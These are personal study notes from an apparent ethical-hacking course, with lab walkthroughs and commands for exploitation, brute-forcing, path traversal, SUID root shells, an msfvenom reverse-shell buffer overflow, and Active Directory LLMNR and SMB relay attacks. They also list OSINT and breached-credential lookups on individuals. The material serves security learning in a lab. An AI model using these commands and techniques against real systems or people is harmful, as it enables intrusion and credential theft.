Networking Refresher
Short refresher on IP Address, MAC Address and Subnets.
Introduction to Linux
-
Brushed up basic commands like
ls,cd,touch,mkdir,cat,echoetc. -
Wrote a Bash Script to sweep IP's on my local network.
Introduction to Python
-
Basic Programming skills in Python.
-
Wrote a basic Port Scanner in Python.
The Ethical Hacker Methodology
There are five major steps behind any Hack or Pentest:
- Information Gathering (Reconnaissance)
- Scanning & Enumeration
- Gaining Access
- Maintaining Access
- Covering Tracks
Information Gathering (Reconnaissance)
-
Reconnaissance can broadly classified into two types:
(i) Passive Reconnaissance: This involves gathering info about the target from external sources like the Internet, Search Engines, Social Media etc. The pentester doesn't actively engage with the target.
(ii) Active Reconnaissance: We can use this method to probe a system for weaknesses, often risking early detection. Of the two, this is the fastest method of recon, actively searching for vulnerabilities or entre points. -
The key steps in gathering info about a Web/Host:
- Target Validation: WHOIS, nslookup, dnsrecon
- Finding Subdomains: Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc.
- Fingerprinting: Nmap, Wappalyzer, WhatWeb, BuiltWith, Netcat
- Data Breaches:HaveIBeenPwned, Breach-Parse, WeLeakInfo
-
We can start by trying to find important emails associated with our target, his place of work, his co-workers and try to track his online activity.
Some resources to achieve this are:
- hunter.io: Good source to search for Domain based emails.
- phonebook.cz: Great free site for domain based OSINT.
- Voilanorbert: Another good source for look for emails.
- Clearbit Connect: Instructor recommended but only supports Chrome.
- Email Hippo: Site to verify whether a email exists or not.
- Google Forgot Password: To verify email and check for recovery emails.
-
Once you have the target emails, you could look them up in leaked databases checker sites to check for compromised credentials.
- Dehashed.com: Instructor recommended but Paid!!.
- haveibeenpwned.com: Good for checking compromised emails.
- breachdirectory.org: Great site for checking compromised passwords.
-
Another OSINT technique involves finding all subdomains of the target:
- sublist3r: Python Script to lookup domains using various search engines.
- crt.sh: Amazing website to check for digital certifications issued to various subdomains.
-
Amass is one of the most popular OSINT tool for website enumeration like finding subdomains etc. It is built by the OWASP company itself and considered by many as all-in-one tool for reconnaissance.
Sometimes all the domains gathered using Amass cannot not be reached directly over HTTP/HTTPS. The filter out reachable domains we could use a tool called HttpProbe by tomnomnom.
-
Next task after figuring out a domain or website is enumerating the framework it is built upon. Various tools can be used for this task.
- Built With: The most comprehensive tool for in-depth website framework enumeration.
- Wappalyzer: Browser extension for quickly checking website's framework technologies.
- whatweb: Kali built-in website enumeration tool.
-
Burpsuite is web penetration testing tool that allows us to intercept all our web traffic and modify requests and automatically scan the website to find important info and vulnerabilities. It is one of the most widely used web application enumeration tool.
-
Google Fu derived from Kung Fu is basically about the art of Googling. It involves how effectively you are able to lookup data related to your target and find useful files and search results which would usually not be presented to the average user. Eg:
site:tesla.com -www filetype:pdf. A good source for such Google Dorks is Click Me. -
The importance of Social Media in reconnaissance if incomparable. Scanning through social media sites like
twitter.com,linkedin.cometc. for badge photos, employees details and other crucial information can prove to be extremely valuable in our reconnaissance. Its the people that are the weakest links of any organization.
Scanning & Enumeration
-
This phase involves scanning the target for vulnerabilities, examining the technologies used by the target and looking out of any known exploits for those technologies. It basically involves getting to know your target better so that you can figure out where to attack.
-
First step in achieving this is scanning the target/s using Nmap to know everything about the devices on the local network, their open ports, the applications listening on that port, their versions and the OS used on those machines.
-
After we have done basic enumeration we will look for any known vulnerabilities for the technologies used on the machines. This can be done through multiple ways:
(i) Nikto: This is the first scanning tool that should be used. It is inbuilt in Kali and can be used for scanning the target for application version detection and for finding known vulnerabilities. It is pretty basic but gives a solid initial overview about the target.
(ii) Nessus: It is a very popular automated vulnerability scanner. It gives a in-depth vulnerability report about the target and is often used to check for popular vulnerabilities. It is good for thoroughly analyzing the targets.
(iii) Manual Enumeration: Even popular tools like Nessus are not able to capture every vulnerability on the target machines. We have to manually enumerate various technologies used on that machine and look for critical sectors. Manual Enumeration helps us refining the search process. -
If a web server is hosted on the target machine we can run a dictionary based attack using dirb or dirbuster to find various directories and pages served by the machine. Scanning through those directories and pages can give us meaningful insights about the machine and provide us with a new attack surface for Web Application based attacks like remote code execution, SQL Injection etc. We can also use BurpSuite to manipulate our web requests and explore different responses returned by the web server.
-
For the Kioptrix 1 machine used in this course, we found several vulnerabilities for listed technologies:
(i) mod_ssl/2.8.4 OpenSSL/0.9.6b: Remote Buffer Overflow
(ii) Samba 2.2.1a: Remote Buffer Overflow
(iii) ==OpenSSH 2.9p2 ==: AFS Token Buffer Overflow
Exploitation Basics
-
In this section we aim to exploit the various vulnerabilities discovered in our target. We start by using already available exploits and also by manually exploiting a target's vulnerability. We can use Metasploit which has a large collection of popular exploits. We could also compile our own exploits and use them manually against our target. We will also explore brute forcing attacks using Hydra as well as password spraying and credential stuffing using Burpsuite.
-
During any exploitation attempt, our main goal is to get a Shell on the target machine. A shell basically provides us with an interface to interact with the machine. There are generally two different types of shell:
(i) Bind Shell: In this case a malicious program opens a network port on a victim’s machine, waiting for an incoming connection from an attacker. The attacker then connects to this open port, and gains control over the victim’s system.
To launch a bind shell, the attacker must have the IP address of the victim to access the target computer.(ii) Reverse Shell: In this the attacker must first start a server on his machine, while the target machine will have to act as a client that connects to the server served by the attacker. After the successful connection, the attacker can gain access to the shell of the target computer.
To launch a Reverse shell, the attacker doesn’t need to know the IP address of the victim to access the target computer.Reverse Shells are commonly used in scenarios where the victim’s machine is behind a firewall or NAT (Network Address Translation).
-
To exploit our target we use a Payload. A payload in cybersecurity is a code that is designed to perform malicious activities on a victim’s computer or network. It is the part of a malware that is responsible for carrying out the attack. There are generally two types of payloads:
(i) Stageless Payload: It is a single payload that includes the exploit and complete shell code necessary to complete the chosen task. Due to their all-encompassing nature, these payloads are by definition more stable than their alternatives but are also much more complex and significantly larger in size.

(ii) Staged Payload: It is slightly more complicated, in the sense that it has to beacon out to another device called the C2 server (The initial executable is typically called a “Dropper”) to receive a second “Stage”, which contains a more full and complete program. It is a multi-stage exploit.
 -
Exploit 1: [Samba 2.2.1a] Remote Buffer Overflow
Luckily the exploit for this vulnerability is included with Metasploit. The exploit used in this case is trans2open. We simply have to fire up Metasploit and search for this exploit. After selecting this exploit we have to configure our RHOST option to our target machine.The payload selected by default with this exploit is a staged payload namely
linux/x86/meterpreter/reverse_tcpwhich doesn't work. Instead we have to change to a stageless payload namelylinux/x86/shell_reverse_tcp. -
Exploit 2: [mod_ssl/2.8.4 OpenSSL/0.9.6b] Remote Buffer Overflow
Searching through the Exploit Database we found a exploit for this vulnerability by the name of OpenFuckV2. We have a source code file for the exploit in C language which we have to compile to get a executable. To run that executable we have to supply the required arguments as follows:
./OpenFuck target box [port] [-c N]Our target code depending on the Apache version and operating system used by target machine used is 0x6b. Thus the command to execute is:
./OpenFuck 0x6b 192.168.75.130 -c 40 -
Exploit 3: [OpenSSH 2.9p2] Brute Force Attack
In this case we are not exploiting a vulnerability but rather brute-forcing the password for the machine's ssh server using Hydra. Unfortunately, the OpenSSH version used by the target is very old and the kexAlgorithms and ciphersuites used for connecting to the ssh server are not supported by default on Kali.We have to modify SSH Client settings to support wide compatibility in Hardening menu of Kali Tweaks. We have to also delete any pre-existing ssh config files in
~/.ssh/configotherwise the tweak won't work. Only then we can brute force passwords using Hydra on the target's ssh server.
hydra -l root -P ./wordlist.txt ssh://192.168.75.130 -t 4 -V. -
We can also brute force website login pages using a tool called Burpsuite. First we have to intercept our POST request on the login page to identify the username and password fields in the request. Then we can send that request to the Intruder where we can re-send that request multiple times using a different set of username:password.
First attack which we will use is credential stuffing. In this we try to inject breached account credentials in hopes of account takeover. We can find these leaked credentials in credential database leaks. We can also try setting a fixed username and then brute force the passwords and vice versa. This process is known as password spraying. This process is often automated and occurs slowly over time in order to remain undetected.
New Capstone
-
Machine 1: Blue
The first target machine is based on Windows 7. When running NMAP against the target we don't find any interesting information or ports. So, we simply start by searching any known vulnerabilities or exploits for that specific version of Windows.
We come across a exploit developed by NSA namely Eternal Blue which targets MS17-010 bug on Windows machines. This exploit can be simply used from Metasploit to check whether the target is vulnerable and if yes then to attack the target. The Metasploit module is:
exploit/windows/smb/ms17_010_eternalblue
We can also manually use the exploit without the help of Metasploit by following instructions on existing Github repositories like AutoBlue-MS17-010 by 3ndG4me. -
Machine 2: Academy
This is a Debian based Linux Machine. The machine's network service has to be initiated before it can be hacked by logging in as root@tcm and executing
dhclientcommand. Running a NMAP scan against it reveals something interesting. It has a open FTP port which allows Anonymous Login! Also, it has a Apache Webserver hosted on port 80 as well a OPENSSH port at 22.We start by logging into FTP client on target using anonymous@anonymous as credentials. There we find a file named
note.txtwhich we download to our machine. In thatnote.txtwe find a possible username and its password hash for a login page on the target machine. We identify the hash as a MD5 hash using hash-identifier. We then crack that hash using hashcat using rockyou.txt wordlist.Then we use dirb or dirbuster to find the URL for the login page. After that we login to that page using the snooped credentials. On that login page, under the profile section we find an option to upload our profile picture which we use for file upload vulnerability. We upload a PHP reverse shell script from Pentest Monkey to get get a reverse shell on our machine. After getting shell access our new goal is privilege escalation to get root.
We use a script called
linpeas.shthat searches for possible paths to escalate privileges on Linux. We upload that script to target by hosting a webserver on our machine and execute it. We find a potential user's credentials namely grimmie@My_V3ryS3cur3_P4ss. We ssh into the target using these credentials. Now we use another scriptpspy64which is used to snoop on processes without need for root permissions. This reveals abackup.shscript which is executed every minute and is modifiable by grimmie. We append a bash reverse shell script in that file and get a reverse shell from target as root to our machine.Note: Once a hash has been cracked, hashcat won't crack it again and we can find the cracked passwords stored at ~/.local/share/hashcat/hashcat.potfile.
-
Machine 3: Dev
This is another Debian based Linux Machine. A NMAP scan reveals the following open ports of significance: Apache server at port 80, another Apache server at port 8080, OPENSSH at port 22 and NFS at port 2049.
We start with NFS(Network File Sharing) service which is used to mount remote folders to our machine and access them locally. To find mountable folders on the target we useshowmount -e <target ip>. This lists the mountable folders through NFS namely/srv/nfswhich we then mount usingmount -t nfs 192.168.75.134:/srv/nfs ~/Desktop/nfs.Here we find a
save.zipfile in the mounted directory. We try to unzip it but find that it is password protected. We try to brute force the .zip password usingfcrackzip -u -D -p ./rockyou.txt save.zip. This will give us the cracked password using which we extract the save.zip file asunzip save.zip -d ~/Desktop/save. Inside it we will find a private RSA key and To_Do list which contains a reference to config file and the author's love for Java. The file is signed by some JP.Next we use ffuf to enumerate directories on both servers hosted at port 80 and 8080 as
ffuf -u http://192.168.75.134:8080/FUZZ -w ./wordlist.txtWe find a config.yml file in one such directories on port 80 server which contains a credential bolt@I_love_java. Using the same we find a BoltWire login page on port 8080. We look for exploits for BoltWire and find a local file exclusion one. We can then use this vulnerability to output the/etc/passwdfile on the target machine after registering and becoming a authenticated user ashttp://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwdwhich outputs the passwd file.Here we find a user named jeanpaul. Our first guess is that this might be the author of To_Do file. So, we try to ssh into target machine with id_rsa private key as
ssh -i id_rsa jeanpaul@192.168.75.134. We find that the RSA key is passphrase protected. We try using the already discovered password I_love_java since the author also loves java. Bingo! we get a shell access on target as jeanpaul.Now we check whether the sudo command is available on target and which commands can be executed as sudo using
sudo -l. We get a list stating zip command can be used with sudo and that too without entering a password. This gives a nice opportunity for privilege escalation. We search GTFOBins for exploit code usingsudo zipcommand and after executing the specified exploit code we gain root shell access on target machine. -
Machine 4: Butler
This machine is based on Windows 10. NMAP scan reveals a HTTP webserver on port 80 powered by Jenkins. Directory busting using Dirbuster and ffuf reveals no other hidden directories. We immediately shift our focus on Jenkins webserver and start looking for any known exploits. The few exploits that we find are Authenticated RCE and File Inclusion vulnerabilities. So, the first step is authenticating into the login page and only then we can use our exploits afterwards. We use BurpSuite Intruder to brute force common and default passwords and to our surprise we get a login for jenkins@jenkins.
The next step is using Jenkins exploits in order to get a shell. Luckily, we get a script shell on the webserver under the configuration page. The shell accepts and executes commands in Groovy language. We google for a reverse shell script in Groovy and execute it to get a reverse shell on our machine. We get shell access as jenkins user. Now our goal is privilege escalation to get root access. We start by downloading WinPeas.exe program from our hosted webserver in order to enumerate our target.
On running WinPeas and skimming through the output we find an interesting process namely WiseBootAssistant which is executed by root and is modifiable by jenkins. Also, the process suffers from Unquoted Service Path vulnerability. So, we could inject a reverse shell executable in the service path and restart the service so that it gets executed by root. We generate a Windows reverse shell using msfvenom and place it in the unquoted service path as Wise.exe. We restart the WiseBootAssistant service using
sc stop WiseBootAssistantandsc start WiseBootAssistant. This in turn executes our Wise.exe and we get a reverse shell with root access.
-
Machine 4: Black Pearl
This machine is a Debian based Linux Machine. NMAP scan reveals a nginx webserver at port 80 and a ISC BIND service at port 53 for interacting with DNS service. As usual we start by directory busting nginx webserver to find a secret downloadable file. The file tells us that we won't find anything with directory busting and its a dead end. We shift our focus to ISC BIND DNS service. We use dnsrecon to enumerate DNS services on our subnet using
dnsrecon -r 127.0.0.0/24 -n 192.168.75.136 -d abcd. We find one record for blackpearl.tcm. We associate it with our target IP by appending192.168.75.136 blackpearl.tcmto the/etc/hostsfile.Now, when we visit
blackpearl.tcmin our web browser we are directed to a new webpage. Using directory busting we find a new page atblackpearl.tcm/navigate/powered by Navigate CMS. We search for any known exploits for Navigate CMS and find one Unauthenticated Login Bypass and RCE which even has a module in Metasploit. In metasploit we set the RHOSTS to our target ip and VHOST to to blackpearl.tcm. Here VHOST stands for HTTP server Virtual Host. After running the exploit we a shell on the target with www-data user. Now, its time for privilege escalation.We find that the sudo command isn't available. We start system enumeration using linPEAS.sh. Under the suid section we find certain binaries which have suid file permissions. This means even though we can execute those files they will run with root privileges. One such binary is php7.3. We search GTFOBins for any privilege escalation exploit code for SUID PHP binaries. We find one such exploit code
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"and execute it to get root shell access on target machine.
Introduction to Exploit Development
-
In this section we will develop our own exploits for breaching the security of a machine. We will learn a very popular exploitation method, namely Buffer Overflows. Another great tutorial is 👉Here!👈.
A buffer, or data buffer, is an area of physical memory storage used to temporarily store data while it is being moved from one place to another. These buffers typically live in RAM memory. Buffer overflow is an anomaly that occurs when software writing data to a buffer overflows the buffer’s capacity, resulting in adjacent memory locations being overwritten.
An attacker can deliberately feed a carefully crafted input into a program that will cause the program to try and store that input in a buffer that isn’t large enough, overwriting portions of memory connected to the buffer space. If the memory layout of the program is well-defined, the attacker can deliberately overwrite areas known to contain executable code. The attacker can then replace this code with his own executable code, which can drastically change how the program is intended to work.
-
The anatomy of computer memory is as
Kernel->Stack->Heap->Data->Text. It is the Stack that stores temporary variables created by a function. In stack, variables are declared, stored and initialized during runtime. Whenever a function is called, its variables get memory allocated on the stack. The architecture of the Stack is depicted below:

Normally, when data is written to the buffer space, it starts at ESP and stops at the EBP. But in case of a buffer overflow attack, we overflow the actual buffer space and overwrite the EIP. This EIP is a pointer address which is used to point to certain instructions. By using a specially crafted payload we can use this EIP to point to our own malicious code like a reverse shell shellcode. This is how a buffer overflow attack can be used to execute malicious code on the target machines. -
There are seven general steps to conduct a buffer overflow attack:
(i) Spiking: To find a vulnerable command, we will test each one of them and send a bunch of characters to see if we can overflow the buffer. If the program crashes, then the command might be vulnerable or otherwise we move on to the next command.
(ii) Fuzzing: It is similar to Spiking but here we know what part is vulnerable whereas, in spiking, we test for vulnerable commands. Also, we try to determine the number of bytes it takes for the program to crash.
(iii) Finding the Offset: Here we try to find the exact offset after which the buffer starts overwriting to the EIP. We achieve this using a specially crafted buffer payload with unique character patterns.
(iv) Overwriting the EIP: After we have determined the offset for EIP address space, we can use this to write and execute our own instructions in the EIP though calculated buffer overflows.
(v) Finding Bad Characters: Now that we can control the EIP value and specify which instruction to execute next, we can now generate our shellcode. But before generating the shellcode, we need to find the bad characters to know what characters are good/bad for the shellcode.
(vi) Finding the Right Module: We now need to find the right module (that has no memory protection) in the program to inject our shellcode into so that we can get it to execute and achieve desired results.
(vii) Using shellcode to get access: Now, we can easily generate our shellcode using msfvenom by specifying the platform, payload type, architecture and all the bad characters that the shellcode needs to exclude. -
To demonstrate a buffer overflow attack we will use Vulnserver. For memory debugging we will use Immunity Debugger. We start off by spiking the Vulnserver using various available commands to check which command is vulnerable. This can be achieved using a tool called
generic_send_tcpwhich is used to spike commands using variables of incrementing sizes. We find that the server crashes when spiking TRUN command usinggeneric_send_tcp 192.168.75.132 9999 trun.spk 0 0. Hence, its indicates that the TRUN command is vulnerable. -
Now, we need to fuzz this specific TRUN command to check how many bytes of data we actually need to crash the Vulnserver. We can achieve this by writing a custom python script that highlights the payload size at which the program crashed. This payload size can the then be used for designing a unique pattern payload to determine the offset of the EIP.
-
Our next task is generating a unique pattern payload of fixed size to identify the offset for the EIP. This marks the starting bytes after which the buffer overflow starts overwriting the EIP which we can then use to execute our own set of instructions. We can generate that payload using
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 20500command. We will then use this unique pattern to perform buffer overflow attack and note down the value of the EIP register.

This value can then be used for finding the offset to EIP register by using/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 20500 -q 386F4337command. In this case it comes out to be 2003 bytes. -
Now we can tailor our payloads to overwrite custom code on this EIP address which will then be executed by the machine. We can verify this by crafting a custom payload
payload = "A" * 2003 + "B" * 4. When this payload is used for buffer overflow attack we get the following output in Immunity:

This indicates that all the characters after 2003 bytes aka all 4 "B"s were written over the EIP address. (42is the hexcode for character "B"). -
Next step is identifying all the bad characters on the target machine. Bad characters are the ones that must be detected and eliminated as they might interfere with the proper execution of the exploit or the injected shellcode. They can be singled out by sending the complete list of all such characters available here, to see which ones of these cause an error on the machine.
To achieve this we will use addon script called mona.py which is written in python and can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform). First, we configure mona's working directory in Immunity Debugger using the following command:
!mona config -set workingfolder c:\Users\admin\Desktop\mona. Now we can generate a bad character byte array usingmonawith the following command:!mona bytearray -cpb "\x00". This will be stored in the working directory.We will include this byte array in our attack payload and restart the buffer overflow attack. Now, we will analyze the hexdump of the ESP pointer to find all such bad characters. We can automate this search using
!mona compare -f c:\Users\admin\Desktop\mona\bytearray.bin -a 005FF910. Here-a 005FF910is used to indicate the address of the ESP Pointer. This will point out all the bad characters, in our case\x00and\x80. Now, when generating a reverse shell shellcode, we will specify msfvenom to avoid using these charactersmsfvenom -p windows/shell_reverse_tcp LHOST=192.168.75.131 LPORT=1234 EXITFUNC=thread -a x86 -b "\x00" -f c -
Now we need to find the right module to attack. This includes any part of the target machine that does not have any sort of memory protections. Memory protections, such as DEP, ASLR, and SafeSEH can cause headaches. While these protections can be bypassed, they make overflow attacks very hard. We can check for all such vulnerable modules using
!mona modules.
This lists the various modules available and the one that stands out isessfunc.dllbecause it doesn't have any memory protections.Now, we need to find the opcode equivalent of JMP ESP. We are using JMP ESP because our EIP will point to the JMP ESP location, which will jump to our malicious shellcode that we will inject later. This also be achieved using mona by executing the command
!mona jmp -r ESP -m "essfunc.dll". This will return the addresses which we can use as a pointer to our malicious shellcode. We select the first address,625011AF, and add it to our Python script. The new payload in our script ispayload = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 32 + shellcode.Here,
b"<string>"is used to convert string into bytes format,"\xaf\x11\x50\x62"is JMP ESP address backwards and in appropriate syntax called Little Endian,"\x90"is used to add padding because otherwise sometimes exploit code can interfere with our return address and not run properly. Theexploitis obviously our malicious shellcode. -
Now, we will use reverse shell shellcode that we generated earlier in our script. Hence,
exploit = <reverse shell shellcode>. Now, when we execute this script, the JMP ESP command will be executed in the EIP register, which will then point to our malicious code. This will generate a reverse shell to our machine which we can catch using netcat.
Active Directory Overview
-
A directory is a hierarchical structure that stores information about objects on the network. A directory, in the most generic sense, is a comprehensive listing of objects. A phone book is a type of directory that stores information about people, businesses, and government organizations. Phone books typically record names, addresses, and phone numbers.
-
Active Directory (AD) is a Microsoft technology used to manage computers and other devices on a network. It is a primary feature of Windows Server, an operating system that runs both local and Internet-based servers.
-
Active Directory Domain Services is the main component of Active Directory. AD DS can be broken down into three main functions:
- Directory service – A directory service provides methods for storing data in a structured way that makes administration and access easy. For example, Active Directory stores information on users, computers, and groups.
- Authentication Service – It is the process where Active Directory verifies a user’s credentials (username and password). The user’s credentials are stored in the Active Directory database.
- Authorization Service – It is the process that grants or denies a user to do something such as edit a file or access an application.
-
Domain Controllers – A server that is running AD DS is called a domain controller. Domain controllers host and replicate the directory service database inside the forest. The directory service also provides services for managing and authenticating resources in the forest. These servers host essential services in AD DS, including the following: – Kerberos Key Distribution Center (kdc) – NetLogon (Netlogon) – Windows Time (W32time) – Intersite Messaging (IsmServ).
-
The Active Directory directory service uses a Data Store for all directory information. This data store is often referred to as the directory. The directory contains information about objects such as users, groups, computers, domains, organizational units, and security policies. This information can be published for use by users and administrators.
-
One of the prime targets when attacking a Active Directory is the
ntds.ditfile. It contains info about everything in the Active Directory such as users, groups, computers, domains, organizational units, and security policies. On top of that it stores the password hashes for every user in the AD. It is accessible only through the domain controller processes and protocols. It is stored by default in%SystemRoot%\NTDSfolder on all domain controllers. -
Domains are container objects. Domains are a collection of administratively defined objects that share a common directory database, security policies, and trust relationships with other domains. In this way, each domain is an administrative boundary for objects.
-
Domain trees are collections of domains that are grouped together in hierarchical structures. When you add a domain to a tree, it becomes a child of the tree root domain. The domain to which a child domain is attached is called the parent domain. A forest is a complete instance of Active Directory. Each forest acts as a top-level container in that it houses all domain containers for that particular Active Directory instance. A forest can contain one or more domain container objects, all of which share a common logical structure.
 -
Organizational units(OUs) are container objects. You use these container objects to arrange other objects in a manner that supports your administrative purposes. By arranging objects in organizational units, you make it easier to locate and manage them.
-
AD objects serve as the fundamental building blocks of an Active Directory network. These objects represent various resources, including users, computers, printers, and more. Each AD object is defined by a set of information known as object attributes. For instance, a user object’s attributes might include their full name, telephone number, and address.
Active Directory Lab Build
This section involves setting up our own Active Directory which we will use for exploit practice. We need a Windows Server Machine to act as Domain Controller and two other Windows Enterprise/Professional Machines to act as users connected to that the Domain Controller. We follow step by step along the course videos to set up our machines and finally after everything is set up we move on to the exploitation part.
Another important thing to note: The IP of the Domain Controller was getting frequently changed by the DHCP Server. This caused a lot of problems as the connected hosts use the Domain Controllers IP as their IPv4 DNS address. So, we have regularly update the IPv4 DNS address on hosts to match the IP of the Domain Controller or any attacks won't work.
Active Directory - Initial Attack Vectors
-
Once we have gained access to the target's network, there are multiple ways through which we can start attacking the AD and the devices connected to it. There is a great article listing some popular attacks here!.
-
One such attack is LLMNR and NetBios Poisoning. LLMNR or Link Local Multicast Name Resolution is is a protocol based on the Domain Name System (DNS) packet format that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local link. It is used to identify hosts when DNS fails to do so. NBT-NS or NetBIOS over TCP/IP Name Service is just an older version of LLMNR which was used earlier. It was still available to support legacy devices. As of 2022 Microsoft has begun phasing out LLMNR and NBT-NS in favour a newer protocol called mDNS.
-
The key flaw in LLMNR is that it exposes the user's username and NTLMv2 password hash when it is appropriately responded. This could be achieved using a tool called Responder which comes inbuilt in Kali. When a user lookups a host which cannot be resolved by the DNS service, it then uses LLMNR instead to resolve to that host.
This is where the Responder comes into action and by duping to authenticate the target machine to the host its looking for it instead steals the target's username and NTLMv2 hash. We use the command
responder -I eth0 rwdvto set up Responder Server and when the target machine tries to connect to our IP we steal their credentials. These hashes can then be cracked using Hashcat to get the plaintext password and gain access to the target account. -
To defend against LLMNR attacks we can simply disable LLMNR and NBT-NS using Group Policy Editor at
Local Computer Policy -> Administrative Templates -> Network -> DNS Client -> Turn Off Multicast Name Resolution.NBT-NS can be disabled at
Network Connections -> Network Adapter Properties -> TCP/IPv4 Properties -> Advanced Tab -> WINS tab -> Disable NetBIOS over TCP/IP.We can also Network Access Control to allow only verified MAC's to connect to ports on our computer as well as just using Strong Passwords by default.
-
Another popular type of attack is SMB Relay Attack. This attack is similar to the LLMNR attack in sense that we use Responder to capture a user's credentials but instead of trying to crack those password hashes, we simply relay those credentials to other hosts on the network in hope of getting access. But there are two prerequisites for the SMB Relay attack to work:
(i) SMB Signing must be disabled on the target.
(ii) Relayed user credentials must be Admin on that machine. -
There are multiple methods to detect whether SMB Signing is disabled or not. We could simply run a Nessus scan to detect whether SMB Signing is enabled or not. We could also use the various SMB Signing checker scripts available on Github to check for the same. Although the most common one is using NMAP with special script as
nmap -p- -T4 -A -v 192.168.75.0/24 --script=smb2-security-mode.nse. This reveals that the Domain Controller hasSMB Signing enabled and requiredwhereas the other hosts haveSMB Signing Enabled but not required. -
The SMB Relay attack involves the following steps:
(i) The
/etc/responder/Responder.conffile is modified by setting the HTTP and SMB option to off. This ensures that the Responder only listens to the target servers and doesn't respond to them. The response part is handled by another program calledntlmrelayx.py.
(ii) The Responder is then initialized to capture any user credentials through LLMNR or NBT-NS Poisoning. The captured credentials are then passed on to ntlmrelayx.py application.
(iii) The relay applicationntlmrelayx.pyis initialized. It is responsible for relaying the credentials captured by Responder to the hosts specified by the target file. This is done to gain account access on that target host. The command used isntlmrelayx.py -tf targets.txt -smb2support
(iv) These relayed credentials are then used to login on the target machine and dumps the password hashes of all the local accounts available on that machine. The command can also be modified to perform various different tasks like spawning an interactive SMB shell just by appending a-iat the end ofntlmrelayx.pycommand. Other options can be used like-eto execute a .exe file,-cto execute a specified command like-c "whoami". -
There are various ways to defend your AD against SMB Relay attacks like:
